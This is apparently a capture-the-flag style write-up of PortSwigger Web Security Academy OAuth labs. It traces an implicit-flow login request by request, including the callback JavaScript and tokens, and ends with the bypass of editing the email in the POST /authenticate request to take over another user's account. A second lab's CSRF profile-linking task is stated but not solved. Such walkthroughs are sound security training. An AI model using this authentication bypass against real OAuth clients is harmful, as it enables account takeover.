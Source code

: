 ## Lab - 1: Authentication bypass via OAuth implicit flow (A)

- This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the client application makes it possible for an attacker to log in to other users' accounts without knowing their password. To solve the lab, log in to Carlos's account. His email address is carlos@carlos-montoya.net. You can log in with your own social media account using the following credentials: wiener:peter.

> Flow of OAuth process for this lab

1. `GET /my-account` from application redirected to `/social-login`
2. `GET /social-login` -> response contains meta tag to fetch from OAuth service

```html
<meta
  http-equiv="refresh"
  content="3;url=https://oauth-0aa20037048bd37cc089049e029c00d2.web-security-academy.net/auth?client_id=quzs4k6iz0iqzfchxka1k&redirect_uri=https://0ab700250451d3a5c0ee0410001a00c9.web-security-academy.net/oauth-callback&response_type=token&nonce=-1853408548&scope=openid%20profile%20email"
/>
```

3. then the following GET request takes place to get from OAuth server

```
GET /auth?client_id=quzs4k6iz0iqzfchxka1k&redirect_uri=https://0ab700250451d3a5c0ee0410001a00c9.web-security-academy.net/oauth-callback&response_type=token&nonce=-1853408548&scope=openid%20profile%20email HTTP/1.1
Host: oauth-0aa20037048bd37cc089049e029c00d2.web-security-academy.net
```

4. It has

<details>
<summary>
 this response
</summary>

```
HTTP/1.1 302 Found
X-Powered-By: Express
Pragma: no-cache
Cache-Control: no-cache, no-store
Set-Cookie: _interaction=cXAbo8_Osu7Vjt44iUQyP; path=/interaction/cXAbo8_Osu7Vjt44iUQyP; expires=Fri, 07 Oct 2022 16:55:31 GMT; samesite=lax; secure; httponly
Set-Cookie: _interaction_resume=cXAbo8_Osu7Vjt44iUQyP; path=/auth/cXAbo8_Osu7Vjt44iUQyP; expires=Fri, 07 Oct 2022 16:55:31 GMT; samesite=lax; secure; httponly
Set-Cookie: _session=wsnG2VfazKNNgHuWTj0ew; path=/; expires=Fri, 21 Oct 2022 16:45:31 GMT; samesite=none; secure; httponly
Set-Cookie: _session.legacy=wsnG2VfazKNNgHuWTj0ew; path=/; expires=Fri, 21 Oct 2022 16:45:31 GMT; secure; httponly
Location: /interaction/cXAbo8_Osu7Vjt44iUQyP
...

Redirecting to <a href="/interaction/cXAbo8_Osu7Vjt44iUQyP">/interaction/cXAbo8_Osu7Vjt44iUQyP</a>`
```

</details>

5. It redirects to

```
GET /interaction/SSmbqLjw_N9qhTQEjMUyQ HTTP/1.1
Host: oauth-0aa20037048bd37cc089049e029c00d2.web-security-academy.net
```

from OAuth server and contain button to `Continue`

```html
<form
  autocomplete="off"
  action="/interaction/cXAbo8_Osu7Vjt44iUQyP/confirm"
  method="post"
>
  <button autofocus type="submit" class="login login-submit">Continue</button>
</form>
```

6. If submitted, it will make a POST request to OAuth service

```
POST /interaction/cXAbo8_Osu7Vjt44iUQyP/confirm HTTP/1.1
Host: oauth-0aa20037048bd37cc089049e029c00d2.web-security-academy.net
```

which redirects to `https://oauth-0aa20037048bd37cc089049e029c00d2.web-security-academy.net/auth/cXAbo8_Osu7Vjt44iUQyP`

7. again it redirects to application callback `https://0ab700250451d3a5c0ee0410001a00c9.web-security-academy.net/oauth-callback#access_token=cak10bhH032h6tHMqRXXF-J7PuuHMNB0Mf_cBDrA4G1&amp;expires_in=3600&amp;token_type=Bearer&amp;scope=openid%20profile%20email`

8. at

```
GET /oauth-callback HTTP/1.1
Host: 0ab700250451d3a5c0ee0410001a00c9.web-security-academy.net
```

from application, response is to parse the URL to extract the data like this

<details>
  <summary>JS code to fetch URL parameter values</summary>

```html
<script>
  const urlSearchParams = new URLSearchParams(window.location.hash.substr(1));
  const token = urlSearchParams.get("access_token");
  fetch(
    "https://oauth-0aa20037048bd37cc089049e029c00d2.web-security-academy.net/me",
    {
      method: "GET",
      headers: {
        Authorization: "Bearer " + token,
        "Content-Type": "application/json",
      },
    }
  )
    .then((r) => r.json())
    .then((j) =>
      fetch("/authenticate", {
        method: "POST",
        headers: {
          Accept: "application/json",
          "Content-Type": "application/json",
        },
        body: JSON.stringify({
          email: j.email,
          username: j.sub,
          token: token,
        }),
      }).then((r) => (document.location = "/"))
    );
</script>
```

</details>

9. Inside above code, fetching `https://oauth-0aa20037048bd37cc089049e029c00d2.web-security-academy.net/me` will get required data like this

```json
{
  "sub": "wiener",
  "name": "Peter Wiener",
  "email": "wiener@hotdog.com",
  "email_verified": true
}
```

10. finally, it will make `POST /authenticate` to application and user is logged in

```
POST /authenticate HTTP/1.1
Host: 0ab700250451d3a5c0ee0410001a00c9.web-security-academy.net
...
{"email":"wiener@hotdog.com","username":"wiener","token":"cak10bhH032h6tHMqRXXF-J7PuuHMNB0Mf_cBDrA4G1"}
```

- to solve the lab, change the email to `carlos's email` if the request is via interception on mode OR in POST request box, Right-Click > Request in browser > in original session > copy the URL and paste it in the browser

---

## Lab - 2: Forced OAuth profile linking (P)

- This lab gives you the option to attach a social media profile to your account so that you can log in via OAuth instead of using the normal username and password. Due to the insecure implementation of the OAuth flow by the client application, an attacker can manipulate this functionality to obtain access to other users' accounts. To solve the lab, use a CSRF attack to attach your own social media profile to the admin user's account on the blog website, then access the admin panel and delete Carlos. The admin user will open anything you send from the exploit server and they always have an active session on the blog website. You can log in to your own accounts using the following credentials:
  Blog website account: wiener:peter
  Social media profile: peter.wiener:hotdog
